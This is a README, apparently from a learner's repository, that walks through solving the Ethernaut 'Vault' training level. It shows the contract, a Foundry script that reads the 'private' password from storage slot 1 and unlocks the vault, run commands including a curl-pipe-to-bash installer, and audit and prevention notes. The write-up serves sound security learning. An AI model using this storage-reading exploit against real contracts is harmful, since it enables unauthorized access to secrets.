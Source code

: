 # Ethernaut Level: Vault - Smart Contract Auditing Journey

## Introduction
Hello! In this repository, I've solved the **Vault** level as part of my Ethernaut challenges. I'm learning smart contract auditing by solving one level per day, and this folder (`levels/vault/`) contains everything related to it.

**Goal:** Unlock the vault by providing the correct private password to set `locked` to false.  
**Tools:** Foundry (for scripting and testing), Sepolia testnet.  
**Solved Date:** October 22, 2025 (Day 9).  
**Success:** Verified on the Ethernaut site!

## Contract Overview
This contract acts as a simple locked vault with a private password stored in state. The `unlock` function compares the provided password and unlocks if it matches, but the "private" storage is readable on-chain.

**Key Code Snippet (from src/Vault.sol):**
```solidity
contract Vault {
    bool public locked;  // Slot 0
    bytes32 private password;  // Slot 1 - "private" but publicly readable!

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

## Vulnerability Analysis
**Main Issue: Private Storage Readability (On-Chain Visibility)**  
- "Private" only restricts compiler access; storage variables are public on the EVM. The password in slot 1 can be read via `vm.load` or `eth_getStorageAt`, allowing extraction and unlocking.  
- **Security Impact:** Exposes sensitive data like keys or secrets, enabling unauthorized access. In audits, this reminds us nothing is truly private on-chain.  
- **Audit Tip:** Avoid storing secrets on-chain—use hashes for comparison (e.g., `keccak256(_password) == storedHash`) or off-chain oracles. Inspect storage slots with Foundry or Etherscan.

**Example:** Slot 0: locked (true), Slot 1: password (bytes32 value). Read slot 1 with `vm.load(contract, bytes32(1))` to get the exact password.

## Solution Steps
The attack: Use Foundry's `vm.load` to read the password from storage slot 1, then call `unlock` with it.

1. **Setup:** Create Foundry project, set target instance address in script.
2. **Run Attack:** `forge script script/VaultSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast`.
3. **Verify:** Check `locked()` returns false, submit on Ethernaut site.

**Key Attack Code Snippet (from script/VaultSolution.s.sol):**
```solidity
contract VaultSolution is Script {
    Vault public vaultInstance = Vault(<Contract_address>);  

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        
        console.log("Before unlock, Locked:", vaultInstance.locked());

        // Password read from storage slot 1
        bytes32 password = vm.load(address(vaultInstance), bytes32(uint256(1)));

        // Unlock with password
        vaultInstance.unlock(password);

        console.log("After unlock, Locked:", vaultInstance.locked());

        vm.stopBroadcast();
    }
}
```

## Test and Output
- **Local Test:** Run `anvil` and `forge test`—simulates storage read and unlock.
- **Testnet Output Example:** Console log: "Before unlock, Locked: true", "Password from slot 1: 0x...", "After unlock, Locked: false".

## Key Learnings
- **Auditing Skill:** Probe storage slots for "private" data—use vm.load in tests to verify.
- **EVM Concept:** Storage is public; slots are deterministic (packed by type/order).
- **Prevention:** Hash sensitive inputs; use zero-knowledge proofs for verification.
- **Next Step:** Extend script to compute slots dynamically with keccak256 for complex layouts.

## Installation & Run
1. Install Foundry: `curl -L https://foundry.paradigm.xyz | bash`.
2. `cd levels/vault`.
3. Set `.env`: `PRIVATE_KEY=your_key` and `SEPOLIA_RPC_URL=your_rpc`.
4. Run script: `forge script script/VaultSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast -vvvv`.

If you have questions, comment on the issue or mention me on X (@0xZHD_X)! Next level: King. 🚀

---

- **License:** MIT  
- **Author:** [0xZHD] - Smart Contract Auditor Learner  
- **X:** [Zahedul I Sadik](@0xZHD_X)  
- **References:** [Ethernaut Docs](https://ethernaut.openzeppelin.com/)